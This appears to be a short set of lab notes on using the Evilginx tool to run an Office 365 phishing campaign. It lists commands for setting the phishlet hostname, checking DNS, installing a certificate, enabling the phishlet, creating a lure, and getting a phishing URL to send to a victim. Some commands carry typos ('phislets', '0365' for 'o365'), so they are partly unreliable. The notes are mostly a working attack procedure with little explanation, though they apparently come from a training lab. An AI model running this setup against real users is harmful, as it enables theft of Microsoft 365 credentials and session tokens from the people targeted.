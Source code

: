 #### Use the template for office365

```powershell
phishlets hostname o365 <DOMAIN>
```

#### Verify the DNS entries

```powershell
phishlets get-hosts o365
```

#### Copy the certificate and private key

0365.cr and 0365.key from ```C:\studentx\.evilginx\crt``` to ```C:\studentx\.evilginx\crt\login.studentx.corp```

#### Enable phishlets

```powershell
phislets enable 0365
```

#### Create the phishing URL (Tied to an ID)

```powershell
lures create 0365
```

#### Get the phishing URL

* Share the phishing URL with the victim

```powershell
lures get-url <ID>
```
